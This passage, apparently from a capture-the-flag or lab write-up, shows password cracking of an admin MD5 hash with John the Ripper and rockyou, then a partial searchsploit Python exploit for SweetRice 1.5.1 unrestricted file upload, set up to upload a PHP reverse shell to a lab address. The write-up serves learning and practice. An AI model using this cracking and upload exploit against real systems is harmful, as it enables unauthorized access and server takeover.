 After being stuck for a while I found a backup of the mysql database which allowed me to find an administrator username, and a hash of their password.

```
/opt/john/run/john hash -w=/opt/wordlist/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)
1g 0:00:00:00 DONE (2021-04-18 20:07) 50.00g/s 1689Kp/s 1689Kc/s 1689KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
Using this password I now had administrator access to the website.

I looked at searchsploit and found a script for file upload.

After downloading modifying the python script I attempted to upload a php reverse shell that I could connect to. 

The script told me that the file was uploaded but I could not find it 

``` python
#/usr/bin/python
#-*- Coding: utf-8 -*-
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

if os.name == 'nt':
    os.system('cls')
else:
    os.system('clear')
    pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = "10.10.14.158/content"
username = "manager"
password = "Password123"
filename = ("revshell.php5")
file = {'upload[]': open(filename, 'rb')}
```